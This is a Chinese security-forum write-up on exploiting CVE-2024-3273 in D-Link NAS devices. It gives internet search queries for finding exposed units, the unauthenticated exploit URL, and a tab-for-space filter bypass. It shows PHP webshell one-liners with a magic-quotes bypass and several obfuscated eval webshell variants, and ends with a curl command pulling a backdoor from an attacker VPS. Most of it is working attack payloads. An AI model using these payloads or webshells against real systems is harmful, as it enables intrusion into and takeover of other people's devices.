# D-Link RCE 的一次简单绕过-先知社区

> **来源**: https://xz.aliyun.com/news/18297  
> **文章ID**: 18297

---

## 前言

漏洞：CVE-2024-3273  
D-Link 网络存储 (NAS)是中国友讯（D-link）公司的一款统一服务**路由器**。  
D-Link NAS nas\_sharing.cgi接口存在命令执行漏洞，该漏洞存在于“/cgi-bin/nas\_sharing.cgi”脚本中，影响其 HTTP GET 请求处理程序组件。

漏洞成因是通过硬编码帐户（用户名：“messagebus”和空密码）造成的后门以及通过“system”参数的命令注入问题。未经身份验证的攻击者可利用此漏洞获取服务器权限。

## 网络资产测绘

Fofa：

```
body="Text:In order to access the ShareCenter"
```

Hunter

```
    body="Text:In order to access the ShareCenter"
```

Quake

```
    body="Text:In order to access the ShareCenter"
```

## 漏洞探测

漏洞接口：

> /cgi-bin/nas\_sharing.cgi?user=messagebus&passwd=&cmd=15&system=aWQ=

system 参数处传入要执行的命令，base64 编码之后的值  
如下，执行命令 `id`

> echo -n "id" | base64 （base64 编码后的值为：aWQ=）



如下图，可以输出 id 命令的执行结果，即为存在漏洞  


## 漏洞利用

尝试写入文件  
  


执行 `ls` 命令查看，发现 666.php 已经被创建  


但是访问 发现内容为空，证明内容没有被成功写入  


`cat` 命令查看 666.php 文件内容，发现无法显示命令结果  
后续又执行了 多个 需要回显 的命令发现均为此类现象

```
ls / -al
ls /
touch 3.php ......
```

  
  


### 空格绕过

多次尝试之后发现是空格被过滤  
尝试使用 `tab` 键代替空格，执行 `ls / -al` 中的空格替换为 `tab`  
成功执行  


使用 `tab` 键替换空格之后尝试重新写入php文件，讲下面的命令进行base64编码后作为system 参数传入

```
echo	"	<?php	phpinfo();	?>"	>	7.php
```



执行完毕之后，成功创建文件，访问文件发现 phpinfo 代码已被成功写入  
  
访问 正常解析，同时确定php版本为 5.2  


接下来写入一句话木马  
同样的将这条命令进行base64编码

```
echo	"	<?php	@eval($_POST['love']);	?>"	>	8.php
```

执行之后，成功写入文件  


访问发现了多个报错，而且蚁剑也连不上  
  


### 魔术引号绕过

`cat` 命令查看 8.php 内容，发现单引号、小括号、冒号 都被转义了，所以产生了报错，导致无法连接

```
原来的内容：<?php	eval($_POST['love']);	?>
被转义后的：<?php	eval\($_POST\[\'love\'\]\)\;	?>
```



由上面的phpinfo文件可知，当前的php版本为 5.2，所以 php.ini 文件中的魔术引号 应该是默认开启的，也就是默认设置了自动转义，该功能从 **PHP 5.3.0** 开始**默认禁用**，并在 **PHP 5.4.0** 彻底移除。

**stripslashes 函数绕过**

接下来考虑进行魔术引号的绕过  
尝试使用 `stripslashes()` 去除转义，`stripslashes()` 是 PHP 内置的字符串处理函数，用于去除字符串中的反斜杠 ，常用于绕过魔术引号（magic\_quotes\_gpc）的自动转义。  
命令变化为

```
echo	"	<?php	@eval(stripslashes($_POST['love'])); ?>	"	>	3.php
```

经过base64编码后传入执行  
写入成功  
  
`cat` 命令查看文件内容，发现还是有单引号在转义，访问仍然报错

```
原来的代码：<?php	@eval(stripslashes($_POST['love'])); ?>
被转义后的：<?php	@eval\(stripslashes\($_POST\[\'love\'\]\)\)\;\ ?>
```

  
  
难道又要失败了嘛，不要啊！  
蚁剑尝试连接，竟然成功连上了！

  




还有一些其他的绕过方法都没有绕过成功，就这一个绕过成功了

一、`base64_decode()` 传输代码

```
<?php eval(base64_decode($_POST['cmd'])); ?>
```

二、`chr()` 逐字符拼接

```
<?php
eval(chr(115).chr(121).chr(115).chr(116).chr(101).chr(109)."('$_GET[cmd]');");
?>
```

三、call\_user\_func()动态调用

```
<?php call_user_func("ev"."al", $_POST['cmd']); ?>
```

四、双重 `str_replace()`

```
<?php $a="str"."_replace"; $b="eva"."l"; $a("a","",$b($_POST['cmd'])); ?>
```

等。。。。。。

​

有的时候可能会只能操作文件无法执行命令，这种情况可以写个大马，用来进行命令执行。

> curl vps\_ip:8000/qsd-php-backdoor.php -o theme-config.php

写入成功之后访问正常  
  
